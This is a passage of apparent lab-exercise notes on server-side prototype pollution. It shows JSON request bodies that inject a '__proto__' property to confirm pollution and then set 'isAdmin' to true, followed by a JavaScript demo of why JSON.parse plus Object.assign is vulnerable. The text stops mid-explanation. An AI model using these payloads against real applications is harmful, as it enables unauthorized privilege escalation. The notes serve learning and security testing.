 Try using prototype pollution by adding a new property such as:

```js
{"address_line_1":"Wiener HQ","address_line_2":"One Wiener Way","city":"Wienerville","postcode":"BU1 1RP","country":"US","sessionId":"lNfZLo3RtFk1owo6emrjXqC0pYm8voYR",
"foo":"bar",
"__proto__": {
"polluted": true}}
```

If the `polluted` property is returned but no `__proto__` property, it may suggest a successful pollution of the object prototype and the polluted property is inherited by the chain:

![[Proto Chain.png]]

>[!info]
>The `foo` property is also still present, indicating a merging of data being sent into an existing object that represents the user.

Try changing the `isAdmin` to true by polluting the prototype:

```json
{"address_line_1":"Wiener HQ","address_line_2":"One Wiener Way","city":"Wienerville","postcode":"BU1 1RP","country":"US","sessionId":"lNfZLo3RtFk1owo6emrjXqC0pYm8voYR",
"foo":"bar",
"__proto__": {
"isAdmin": true}}
```

![[isAdmin True.png]]

This suggest the user object doesn't have its own isAdmin property, but rather inherits it from the polluted prototype. 

It works because the browser is sending user information as a JSON string which is parsed on the server using `JSON.parse`. The proto property injected is likely treated as a normal property of the object meaning the object will pollute the object prototype if used with a vulnerable merge operation such as `assign()`:

```js
let myData = JSON.parse('{"address_line_1":"Wiener HQ","address_line_2":"One Wiener Way","city":"Wienerville","postcode":"BU1 1RP","country":"US","sessionId":"lNfZLo3RtFk1owo6emrjXqC0pYm8voYR",
"foo":"bar",
"__proto__": {
"isAdmin": true}}')

myData

let userData = Object.assign({}, myData)
userData
```

If the server checks something like:

```js
if(userData.isAdmin){console.log('Load admin panel')}
```
